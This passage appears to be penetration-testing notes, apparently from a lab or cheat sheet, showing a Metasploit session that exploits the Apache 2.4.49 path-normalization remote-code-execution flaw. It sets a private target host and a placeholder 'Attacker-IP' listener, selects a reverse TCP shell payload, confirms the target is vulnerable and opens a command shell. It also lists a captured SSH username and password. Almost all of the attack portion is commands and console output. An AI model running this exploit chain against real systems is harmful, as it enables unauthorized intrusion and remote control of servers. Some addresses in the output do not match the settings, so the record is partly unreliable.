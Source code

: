 ```plain
creds
  host            origin          service       public  private    realm
  ----            ------          -------       ------  -------    ----
  192.168.50.201  192.168.50.201  22/tcp (ssh)  user    password         Password
```

### Exploit Modules

```shell
workspace -a exploits

show exploits
search type:exploits Apache 2.4.49 
use exploit/multi/http/apache_normalize_path_rce

msf6 exploit(multi/http/apache_normalize_path_rce) >
info
  
   Available targets:
   Id  Name
   --  ----
   0   Automatic (Dropper)
   1   Unix Command (In-Memory)

   Check supported:
   Yes

   Indicators of compromise:
   ...

show options

  Module options (exploit/multi/http/apache_normalize_path_rce):
  ...
  Payload options (linux/x64/meterpreter/reverse_tcp):

set SSL false
set RPORT 80
set RHOSTS 192.168.55.110
set LPORT 443
set LHOST Attacker-IP

set PAYLOAD linux/x64/shell_reverse_tcp
  payload => linux/x64/shell_reverse_tcp

check
  [*] Using auxiliary/scanner/http/apache_normalize_path as check
  [+] 192.168.118.55:110 - The target is vulnerable.

run
  [*] Command shell session 1 opened (192.168.45.198:4444 -> 192.168.55.110:53190)
id
pwd
```
